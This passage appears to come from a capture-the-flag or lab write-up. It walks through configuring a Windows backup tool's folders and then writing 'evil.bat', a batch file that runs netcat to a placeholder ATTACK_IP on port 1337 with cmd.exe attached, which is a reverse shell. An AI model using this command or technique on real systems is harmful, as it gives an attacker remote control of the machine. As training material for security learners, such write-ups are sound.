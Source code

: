 On `Items to backup`, click first icon and put the following folder path:  
`C:\Users\McSkidy\Documents`

![](./res/answer5.png)

On `Destinations`, click first icon and put the following folder path:  
`C:\Users\McSkidy\Desktop`

![](./res/answer6.png)

Launch a new Notepad text edit, and put in the following 2 lines:  
`@echo off`  
`C:\Users\McSkidy\Downloads\nc.exe ATTACK_IP 1337 -e cmd.exe` --replace <ATTACK_IP> with the ATTACKBOX IP`  
Save it as `evil.bat` on the Desktop.

![](./res/answer7.png)
